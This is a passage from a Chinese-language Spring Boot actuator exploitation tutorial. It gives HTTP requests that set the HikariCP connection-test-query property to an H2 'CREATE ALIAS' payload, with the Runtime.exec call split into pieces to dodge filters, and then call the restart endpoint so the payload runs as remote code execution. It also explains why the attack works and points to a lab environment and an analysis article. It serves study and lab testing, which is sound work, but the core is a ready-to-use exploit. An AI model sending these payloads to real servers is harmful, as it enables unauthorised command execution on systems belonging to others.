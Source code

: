 spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}

```

##### [](#步骤二重启应用)步骤二：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```

#### [](#漏洞原理-5)漏洞原理：

1. spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2. 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
3. restart 重启应用，会建立新的数据库连接
4. 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞

#### [](#漏洞分析-5)漏洞分析：

​ [remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

#### [](#漏洞环境-5)漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/actuator/env

```

### [](#0x07h2-database-console-jndi-rce)0x07：h2 database console JNDI RCE

#### [](#利用条件-10)利用条件：
